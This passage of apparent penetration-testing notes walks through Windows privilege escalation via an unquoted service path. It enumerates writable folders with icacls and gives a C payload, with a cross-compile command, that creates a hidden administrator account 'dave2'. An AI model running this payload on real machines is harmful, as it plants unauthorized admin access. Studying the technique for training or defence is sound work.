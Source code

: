 {% tab title="3. Paths" %}
```powershell
C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```
{% endtab %}

{% tab title="4. Perms" %}
```powershell
PS C:\Users\steve> icacls "C:\"
<SNIP>
    BUILTIN\Users:(OI)(CI)(RX)
    NT AUTHORITY\Authenticated Users:(OI)(CI)(IO)(M)
    NT AUTHORITY\Authenticated Users:(AD)
<SNIP>
    
PS C:\Users\steve>icacls "C:\Program Files"
<SNIP>
    BUILTIN\Users:(RX)
    BUILTIN\Users:(OI)(CI)(IO)(GR,GE)
<SNIP>

PS C:\Users\steve> icacls "C:\Program Files\Enterprise Apps"
<SNIP>
    BUILTIN\Users:(OI)(CI)(RX,W) # Write permissions!
<SNIP>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="5. Payload" %}
{% code title="Current.c" %}
```c
#include <stdlib.h>

int main ()
{
  int i;

  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");

  return 0;
}
```
{% endcode %}
{% endtab %}

{% tab title="6. Cross-compile" %}
```bash
# cross-compile the script on the attacking machine
$ x86_64-w64-mingw32-gcc Current.c --shared -o Current.exe
```
{% endtab %}
